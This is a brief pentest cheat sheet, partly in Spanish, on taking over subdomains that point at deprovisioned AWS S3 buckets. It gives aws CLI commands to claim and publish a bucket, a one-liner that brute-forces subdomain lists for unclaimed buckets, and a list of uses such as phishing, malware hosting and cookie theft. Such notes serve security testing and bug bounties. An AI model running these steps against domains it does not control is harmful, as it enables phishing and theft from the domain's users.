 # AWS

## Subdomain Takeover

> Take control of a domain that was previously associated with a deprovisoned AWS resource is also known as a Subdomain Takover vulnerability 

Crear bucket

* aws s3 mb s3://example.domain.com
* aws s3api create-bucket --bucket example.domain.com --region eu-west-2 --create-bucket-configuration LocationConstraint=eu-west-2

Eliminar bucket

* aws s3 rb s3://example.domain.com --force

Configure bucket

* aws s3api put-bucket-policy --bucket example.domain.com --policy file://policy.json

Upload to bucket

* aws s3 sync ./static/ s3://example.domain.com
* aws s3 cp poc.html s3://domain

Enable public access

* aws s3 website s3://assets.cloudbilling.net/ --index-document index.html --error-document index.html

### Gravity

* Hosting Phishing websites
* Hosting Malware
* Bypassing CSP policies
* Stealing Cookie's
* Man-in-the-browser attacks

## S3 Buckets
* s3.amazonaws.com
* Read: aws s3 ls s3://domain --no-sign-request = Response: An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist
* Upload: aws s3 cp poc.html s3://domain --no-sign-request = load to s3://
* Bruteforce: cat subdomains.txt | xargs -I@ sh -c 'aws s3 ls s3://@ --no-sign-request' | grep -v 'An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist'
